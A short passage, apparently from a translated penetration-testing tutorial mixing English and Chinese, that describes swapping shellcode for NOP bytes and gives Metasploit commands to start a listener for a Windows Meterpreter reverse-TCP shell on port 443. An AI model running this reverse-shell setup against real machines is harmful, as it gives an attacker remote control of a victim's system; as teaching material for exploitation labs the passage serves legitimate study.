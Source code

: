    ![How to do it...](img/image_04_047.jpg)

    请注意，我们已将整个 shell 代码替换为`/x90`NOP 代码。

6.  Once the code is replaced, save and close the file. Start Metasploit and enter the following command to initiate a listener on the Kali machine on port `443` as mentioned when we created our payload:

    ```
          msfconsole
          use exploit/multi/handler
          set payload windows/meterpreter/reverse_tcp
          set lhost <Kali IP address>
          set lport 443
          exploit

    ```

    输出将如以下屏幕截图所示：
